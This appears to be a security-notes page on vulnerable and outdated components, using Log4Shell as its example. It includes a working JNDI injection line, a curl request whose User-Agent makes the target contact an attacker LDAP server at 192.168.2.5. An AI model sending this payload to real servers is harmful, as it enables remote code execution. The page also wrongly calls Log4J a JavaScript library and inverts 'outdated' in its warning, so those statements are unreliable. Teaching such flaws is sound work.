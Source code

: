 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Vulnerable and Outdated Components

Highlights the dangers of using software libraries, frameworks, or components that contain known vulnerabilities or are outdated. When applications rely on these components, they inherit their security weaknesses which could happen even server-side or client-side.

Here is a typical example of this vulnerability as follows:

* The _Log4Shell_ vulnerability is one of the most known examples of this. Is a vulnerability from the JavaScript library _Log4J_ which allowed RCE and information disclosure

{% code overflow="wrap" lineNumbers="true" %}
```bash
#For example, a server is running using this component in its code
http://$url:8888/
#If we make a JNDI petition to the web server and redirect it to a JNDI server of our own, the connection will be caught and the web server will process the content of the JNDI server
curl -A \${jndi:ldap://192.168.2.5:1234/a} http://TCMserver:8888/
#This can be leveraged by submitting exploits to the JNDI server which will cause information disclosure and even RCE on the target server
```
{% endcode %}

{% hint style="warning" %}
This has been fixed in the latest versions of _Log4J_, but the vulnerability will remain in every application using a non-outdated version of the library
{% endhint %}
